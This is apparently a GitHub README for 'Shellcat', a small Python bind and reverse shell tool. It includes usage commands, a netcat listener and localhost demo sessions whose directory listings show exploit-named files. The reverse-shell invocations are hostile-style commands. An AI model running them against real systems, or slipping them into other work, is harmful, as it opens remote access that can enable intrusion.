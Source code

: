 ## Shellcat
A computer networking utility for create shell from or connect shell to servers. 
This is the best, simplest, smallest, easiest and friendliest tool that can support
enough features for remote shell. Athough the options still less and simple, but if 
Github community likes this tool, I will grow this more with more features and cleaner
work.

## Usage
Bind shell: `python[3] pysh.py PORT`  
Reverse shell: `python[3] pysh.py HOST PORT`

## UI
#### Bind:
```shell
shelld3v@sh-1:~$ python pysh.py 4242
Listening on 4242 ...
Connected from 127.0.0.1 to [0.0.0.0] 4244
```
```shell
shelld3v@sh-2:~$ nc 127.0.1 4242
sh: limited access in this shell
sh-1.0$ whoami
shelld3v
sh-1.0$ ls
crypto.sh
dirsearch
exploit.py
exploit.sh
flunym0us
frag.c
frag.sh
gitlab
go
go1.12.9.linux-amd64.tar.gz
HTTP
nginxrce.py
oracle2.py
oracle.py
phprce.py
richfaces-elinjection.py
wordpress9978.py
sh-1.0$ uname -a
Linux DESKTOP-1GSL2O4 4.4.0-17763-Microsoft #1217-Microsoft Mon May 05 16:09:00 PST 2020 x86_64 GNU/Linux
sh-1.0$ w
 20:09:33 up  3:32,  0 users,  load average: 0.52, 0.58, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sh-1.0$ exit
exit
```
#### Reverse:
```shell
shelld3v@sh-1:~$ python pysh.py 127.0.1 4242
Connected from 0.0.0.0 to [127.0.0.1] 4242
```
```shell
shelld3v@sh-2:~$ nc -lvp 4242
listening on [any] 4242 ...
connect to [127.0.0.1] from sh-1 [127.0.0.1] 32634
sh: limited access in this shell
sh-1.0$ whoami
shelld3v
sh-1.0$ ls
crypto.sh
dirsearch
exploit.py
exploit.sh
flunym0us
frag.c
frag.sh
gitlab
go
go1.12.9.linux-amd64.tar.gz
HTTP
nginxrce.py
oracle2.py
oracle.py
phprce.py
richfaces-elinjection.py
wordpress9978.py
sh-1.0$ uname -a
Linux DESKTOP-1GSL2O4 4.4.0-17763-Microsoft #1217-Microsoft Mon May 05 16:09:00 PST 2020 x86_64 GNU/Linux
sh-1.0$ w
 20:09:33 up  3:32,  0 users,  load average: 0.52, 0.58, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sh-1.0$ exit
exit
```
